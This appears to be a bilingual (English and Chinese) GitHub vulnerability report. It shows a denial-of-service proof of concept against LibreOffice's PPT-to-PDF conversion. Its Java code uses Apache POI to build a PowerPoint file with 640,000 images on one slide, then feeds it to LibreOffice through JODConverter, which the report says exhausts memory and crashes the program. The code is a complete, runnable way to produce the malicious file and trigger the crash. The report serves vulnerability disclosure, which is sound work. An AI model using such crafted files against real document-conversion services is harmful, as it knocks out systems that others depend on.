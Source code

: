 1. Generate malicious ppt files, using Java's POI plugin to generate them
Produce a PowerPoint file with only one slide through the POI plugin, containing a total of 640000 images of 800 * 800

The code is as follows：
public class PowerPointUtil {
    private static final int NUM =800;
    public static void main(String[] args) {
        String path="E:\\office\\test.pptx";
        try {
            createPPT(path);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
    public static void createPPT(String path) throws IOException {
        XMLSlideShow ppt = new XMLSlideShow();
        XSLFSlide slide = ppt.createSlide();
        byte[] bt = FileUtils.readFileToByteArray(new File("E:\\office\\test.png"));

        for (int i = 0; i < NUM; i++) {
            for (int j = 0; j < NUM; j++) {
                XSLFPictureData pictureData = ppt.addPicture(bt, PictureData.PictureType.PNG);
                XSLFPictureShape pic = slide.createPicture(pictureData);
                pic.setAnchor(new Rectangle(i, j, 50, 50));
            }
        }
        ppt.write(new FileOutputStream(path));
    }
}

2\Operate libreoffice through the org. jdconverter dependency package, and initialize the configuration as follows

The code is as follows：
public class OfficeManagerInstance {
    private static OfficeManager INSTANCE = null;
    public static synchronized void start() {
        officeManagerStart();
    }
    public static synchronized void stop() {
        try {
            INSTANCE.stop();
        } catch (OfficeException e) {
            e.printStackTrace();
        }
    }
    public static void init() {

            LocalOfficeManager.Builder builder = LocalOfficeManager.builder().install();
            builder.officeHome("E:\\libreOffice\\");
            builder.portNumbers(8098);
            builder.taskExecutionTimeout(5 * 1000 * 60); // minute
            builder.taskQueueTimeout(10 * 1000 * 60 * 60); // hour

            INSTANCE = builder.build();
            officeManagerStart();

    }
    private static void officeManagerStart() {
        if (INSTANCE.isRunning()) {
            return;
        }
        try {
            INSTANCE.start();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}

3、Finally, call the OfficeManager to execute the operation of converting ppt to pdf

The code is as follows：
public class LibreOfficeUtil {
    public static void main(String[] args) {
        String pptPath="E:\\office\\test.pptx";
        String pdfPath="E:\\office\\test.pdf";

        OfficeManagerInstance.init();
        OfficeManagerInstance.start();

        try {
            JodConverter.convert(new File(pptPath)).to(new File(pdfPath)).execute();
        } catch (OfficeException e) {
            e.printStackTrace();
        }finally {
            OfficeManagerInstance.stop();
        }
    }
}

4、Upon checking the memory usage, it was found that libreoffice was consuming a large amount of memory on the machine, which led to program crashes and DOS issues

![RS0_6I){_MC}D)``}36A0RC](https://github.com/bzdxtdlsd/test1/assets/58172556/d5210e71-a12c-4d98-a6e8-9d9322f9949e)


1、生成恶意的 ppt 文件，这里采用 java 的 poi 插件去生成
通过 poi 插件，生产一个只有一张幻灯片的 ppt 文件，其中含有 800*800 共 64 万张图片 

代码如下：
public class PowerPointUtil {
    private static final int NUM =800;
    public static void main(String[] args) {
        String path="E:\\office\\test.pptx";
        try {
            createPPT(path);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
    public static void createPPT(String path) throws IOException {
        XMLSlideShow ppt = new XMLSlideShow();
        XSLFSlide slide = ppt.createSlide();
        byte[] bt = FileUtils.readFileToByteArray(new File("E:\\office\\test.png"));

        for (int i = 0; i < NUM; i++) {
            for (int j = 0; j < NUM; j++) {
                XSLFPictureData pictureData = ppt.addPicture(bt, PictureData.PictureType.PNG);
                XSLFPictureShape pic = slide.createPicture(pictureData);
                pic.setAnchor(new Rectangle(i, j, 50, 50));
            }
        }
        ppt.write(new FileOutputStream(path));
    }
}

2、通过 org.jodconverter 依赖包操作 libreoffice，初始化配置如下
代码片段：
public class OfficeManagerInstance {
    private static OfficeManager INSTANCE = null;
    public static synchronized void start() {
        officeManagerStart();
    }
    public static synchronized void stop() {
        try {
            INSTANCE.stop();
        } catch (OfficeException e) {
            e.printStackTrace();
        }
    }
    public static void init() {

            LocalOfficeManager.Builder builder = LocalOfficeManager.builder().install();
            builder.officeHome("E:\\libreOffice\\");
            builder.portNumbers(8098);
            builder.taskExecutionTimeout(5 * 1000 * 60); // minute
            builder.taskQueueTimeout(10 * 1000 * 60 * 60); // hour

            INSTANCE = builder.build();
            officeManagerStart();

    }
    private static void officeManagerStart() {
        if (INSTANCE.isRunning()) {
            return;
        }
        try {
            INSTANCE.start();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}

3、最后调用 OfficeManager 去执行 ppt 转 pdf 的操作
代码如下：
public class LibreOfficeUtil {
    public static void main(String[] args) {
        String pptPath="E:\\office\\test.pptx";
        String pdfPath="E:\\office\\test.pdf";

        OfficeManagerInstance.init();
        OfficeManagerInstance.start();

        try {
            JodConverter.convert(new File(pptPath)).to(new File(pdfPath)).execute();
        } catch (OfficeException e) {
            e.printStackTrace();
        }finally {
            OfficeManagerInstance.stop();
        }
    }
}

4、查看内存占用情况，发现 libreoffice 占用机器大量内存，之后程序崩溃，产生 DOS 问题

![RS0_6I){_MC}D)``}36A0RC](https://github.com/bzdxtdlsd/test1/assets/58172556/8a911d64-e18d-4d4b-8b36-8537307b93e7)

